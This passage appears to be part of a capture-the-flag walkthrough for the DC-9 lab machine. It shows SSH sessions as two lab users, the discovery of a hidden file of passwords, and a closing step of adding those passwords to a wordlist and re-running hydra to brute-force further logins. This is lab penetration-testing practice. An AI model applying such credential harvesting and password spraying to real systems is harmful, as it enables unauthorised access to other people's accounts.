 ```bash
```

ssh joeyt
```bash
joeyt@192.168.43.182's password:                                                
Linux dc-9 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u2 (2019-11-11) x86_64   
                                                                                
The programs included with the Debian GNU/Linux system are free software;       
the exact distribution terms for each program are described in the              
individual files in /usr/share/doc/*/copyright.                                 
                                                                                
Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent               
permitted by applicable law.                                                    
joeyt@dc-9:~$ ls                                                                
joeyt@dc-9:~$ ls -la                                                            
total 12                                                                        
drwx------  3 joeyt joeyt 4096 Aug 29 02:45 .                                   
drwxr-xr-x 19 root  root  4096 Dec 29  2019 ..                                  
lrwxrwxrwx  1 joeyt joeyt    9 Dec 29  2019 .bash_history -> /dev/null          
drwx------  3 joeyt joeyt 4096 Aug 29 02:45 .gnupg                              
joeyt@dc-9:~$ exit                                                              
logout                                                                          
Connection to 192.168.43.182 closed.
```

ssh janitor
```bash
janitor@192.168.43.182's password:                                              
Linux dc-9 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u2 (2019-11-11) x86_64   
                                                                                
The programs included with the Debian GNU/Linux system are free software;       
the exact distribution terms for each program are described in the              
individual files in /usr/share/doc/*/copyright.                                 
                                                                                
Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent               
permitted by applicable law.                                                    
janitor@dc-9:~$ ls                                                              
janitor@dc-9:~$ ls -la                                                          
total 16                                                                        
drwx------  4 janitor janitor 4096 Aug 29 02:46 .                               
drwxr-xr-x 19 root    root    4096 Dec 29  2019 ..                              
lrwxrwxrwx  1 janitor janitor    9 Dec 29  2019 .bash_history -> /dev/null      
drwx------  3 janitor janitor 4096 Aug 29 02:46 .gnupg                          
drwx------  2 janitor janitor 4096 Dec 29  2019 .secrets-for-putin              
janitor@dc-9:~$ cat .secrets-for-putin/                                         
cat: .secrets-for-putin/: Is a directory                                        
janitor@dc-9:~$ cat .secrets-for-putin/passwords-found-on-post-it-notes.txt     
BamBam01                                                                        
Passw0rd                                                                        
smellycats                                                                      
P0Lic#10-4
B4-Tru3-001
4uGU5T-NiGHts
janitor@dc-9:~$ exit
logout
Connection to 192.168.43.182 closed.

```
On Janitor, we found new password some more. Add the new password to the cracked password then re-run the hydra again. 
